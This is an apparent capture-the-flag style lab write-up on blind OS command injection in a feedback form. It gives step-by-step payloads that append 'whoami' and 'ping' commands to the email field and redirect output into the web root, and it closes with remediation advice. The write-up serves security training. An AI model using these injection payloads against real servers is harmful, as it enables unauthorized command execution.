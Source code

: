 ## 🧪 Lab: Blind OS Command Injection with Output Redirection  
**Level**: Practitioner  
**Date**: June 19, 2025  
**Goal**: Exploit a blind OS command injection vulnerability by redirecting command output to a file and retrieving it via the web server.

---

### 🧰 Tools  
- Burp Suite (Repeater / Interceptor)  
- Output redirection payloads (`whoami > ...`)  
- Static resource fetch via browser

---

### 🧭 Steps

1. Intercept the vulnerable request:
POST /feedback/submit  
Parameters include:
email=xyz@gmail.com
message=Test

2. Send the request to Repeater.

3. Test for basic blind injection using:
```
email=xyz@gmail.com||ping+-c+5+127.0.0.1||
```

✅ Delayed response indicates injection point confirmed.

4. Use output redirection to write command result to a static directory:
```
email=xyz@gmail.com||whoami+>+/var/www/images/output.txt||
```

✅ 200 OK indicates command likely executed.

5. Retrieve the output via browser:
```
GET /images/output.txt
```


✅ File contains result of `whoami` command.

---

### 💣 Payload


```
xyz@gmail.com||whoami+>+/var/www/images/output.txt||
```

---

### 💡 Observations

- Blind injection confirmed through delay
- Output successfully written to file served by web root
- Payload relies on the app writing unsanitized shell args

---

### 🔒 Remediation

- Never interpolate user input in shell calls
- Avoid using `system()` or shell equivalents; prefer safe libraries
- Restrict filesystem access for web apps
- Sanitize inputs and enforce strict allow-lists
- Disable file access where unnecessary (e.g., /var/www exposure)